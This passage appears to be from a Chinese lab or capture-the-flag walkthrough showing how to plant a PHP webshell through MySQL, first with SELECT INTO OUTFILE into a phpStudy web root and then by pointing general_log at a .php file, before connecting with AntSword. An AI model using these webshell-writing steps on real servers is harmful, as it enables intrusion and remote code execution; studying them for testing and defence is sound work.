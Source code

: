 ![image.png](https://img.ghostliner.top/q2sXzK.png)

发现目录 `C:\phpStudy\`，猜测网站根目录路径：`C:\phpStudy\WWW\`

#### 5.1.1. 利用 OUTFILE getshell

查看权限

```sql
show global variables like "%priv%";
```

![image.png](https://img.ghostliner.top/39KEb6.png)

`secure_file_priv` 显示为空，说明可在任意处创建文件

```sql
select '<?php echo 123;eval($_REQUEST[a]);?>' into outfile 'c:/phpstudy/www/shell.php';
-- 不能写成 'c:\phpstudy\www\shell.php'
```

![image.png](https://img.ghostliner.top/OFTgwB.png)

蚁剑连接，配置认证头

![image.png](https://img.ghostliner.top/z9Pxt4.png)

连接成功

![image.png](https://img.ghostliner.top/T3btSl.png)

### 5.2. 利用日志 getshell

**原理**：MySQL 的 general_log、slow_log 可以记录 SQL 语句到文件。通过设置日志路径到 Web 目录，就能写 PHP 代码。

**利用场景**：当没有权限使用 OUTFILE 时可利用 MySQL 日志文件 getshell

查看日志状态：

```sql
show global variables like '%log%';
```

![image.png](https://img.ghostliner.top/Sg6Cqa.png)

修改日志配置：

```sql
set global general_log="ON";
set global general_log_file="c:/phpstudy/www/shell_log.php";
```

![image.png](https://img.ghostliner.top/H9aeWj.png)

_注：除了使用命令操作，也可使用可视化界面进行修改。_

注入一句话木马：

```sql
select '<?php echo 123;eval($_REQUEST[a]);?>';
-- 关闭日志记录
set global general_log="OFF";
```

访问成功：

![image.png548](https://img.ghostliner.top/UmFrQX.png)

蚁剑连接后获取 key

